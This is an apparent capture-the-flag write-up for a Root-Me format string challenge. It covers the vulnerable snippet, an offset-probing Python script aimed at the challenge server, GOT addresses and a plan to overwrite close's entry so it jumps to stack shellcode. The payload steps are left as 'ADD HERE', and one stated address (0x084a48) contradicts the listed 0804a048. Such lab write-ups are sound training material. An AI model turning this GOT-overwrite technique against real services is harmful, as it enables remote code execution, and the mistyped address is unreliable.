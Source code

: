 # ELF x86 - Remote Format String bug
https://www.root-me.org/en/Challenges/App-System/ELF32-Remote-Format-String-bug
```
Environment configuration :
PIE 	Position Independent Executable 	 No
RelRO 	Read Only relocations 	                 No
NX 	Non-Executable Stack 	                 No
ASLR 	Address Space Layout Randomization 	 No
SF 	Source Fortification 	                 No
SSP 	Stack-Smashing Protection 	         No
SRC 	Source code access 	                 Yes

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	TCP
Port	        56032
SSH access 	ssh -p 2222 app-systeme-ch32@challenge02.root-me.org   
Username	app-systeme-ch32
Password	app-systeme-ch32
```
The vulnerable code is pretty obvious. It presented in the **recv_loop** function:
```c
recv(csock, input, LENGTH-1, 0);
snprintf (output, sizeof (output), input);
output[sizeof (output) - 1] = '\0';
send(csock, output, LENGTH-1, 0);
close(csock);
```
It's a format string vulnerability (as the title implies). So, we'll have to find few stuff before we'll be able to exploit it:
<ol>
  <li>The offset to the format string.</li>
  <li>A place to put our shellcode and it's address.</li>
  <li>An address that we'll overwrite with our shellcode's address.</li>
</ol>

**(1)** We can find out the offset pretty easily, with a small python script that will take leaverage of the '$'-flag:

```py
import socket

for i in xrange(1, 300):
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(('challenge02.root-me.org', 56032))

  exploit = 'AAAA%{0}$p'.format(i)
  s.send(exploit)
  print i, s.recv(1024)

  s.close()
```
After few seconds, this script will print ```5 AAAA0x41414141``` which indicates that there are 4 values in the stack before the format string.

**(2)** At the end of **recv_loop**, there is a call to _close_ for terminating the connection. Therefore, the we'll have to jump to our shellcode before the function ends.<br>
In order to so, we can overwrite the GOT entry of _close_. So, when it will try to close the socket, it will jump to our shellcode instead.
ASLR is not set, so we can find out the GOT entry's address using objdump:
```sh
objdump -R ./ch32

./ch32:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a058 R_386_COPY        __environ
0804a000 R_386_JUMP_SLOT   setsockopt
0804a004 R_386_JUMP_SLOT   printf
0804a008 R_386_JUMP_SLOT   wait
0804a00c R_386_JUMP_SLOT   htons
0804a010 R_386_JUMP_SLOT   perror
0804a014 R_386_JUMP_SLOT   accept
0804a018 R_386_JUMP_SLOT   getpid
0804a01c R_386_JUMP_SLOT   __gmon_start__
0804a020 R_386_JUMP_SLOT   exit
0804a024 R_386_JUMP_SLOT   __libc_start_main
0804a028 R_386_JUMP_SLOT   bind
0804a02c R_386_JUMP_SLOT   memset
0804a030 R_386_JUMP_SLOT   snprintf
0804a034 R_386_JUMP_SLOT   fork
0804a038 R_386_JUMP_SLOT   htonl
0804a03c R_386_JUMP_SLOT   listen
0804a040 R_386_JUMP_SLOT   socket
0804a044 R_386_JUMP_SLOT   recv
0804a048 R_386_JUMP_SLOT   close <-------------- HERE
0804a04c R_386_JUMP_SLOT   send
```
The address is 0x084a48.

**(3)** The challenge is a remote service. Therefore, we're not able to put the shellcode in an environment variable. Instead, we'll put it in the format string (NX is not set). Using gdb, one can find out that the address of the format string is around 0xbffff350. So in order to jump there successfully, we'll put the shellcode at the end of the format string with a NOP-sled. Let's try to jump to 0xbffff3c0

Now we're ready to build our exploit.<br>
first we'll put the addresses of all 4 bytes of the GOT entry:
```py
exploit = ''
exploit += struct.pack('I', CLOSE_PLT)
exploit += struct.pack('I', CLOSE_PLT + 1)
exploit += struct.pack('I', CLOSE_PLT + 2)
exploit += struct.pack('I', CLOSE_PLT + 3)
```
Now we'll write each one to it's wanted value, using the 'hnn'-flag and '%x' for padding:
```py
ADD HERE
```

And finally we'll add the NOP-sled and the shellcode to the format string:
```py
ADD HERE
```

So, after running the script (uploaded to this directory), the following output appears:
```sh
[!] Shellcode's length: 23.
[+] Starting communicating with the service.
[+] Preparing the exploit buffer with the shellcode.
[+] The buffer sent to the remote service.
[+] Flag: Flag: <censored>.
```
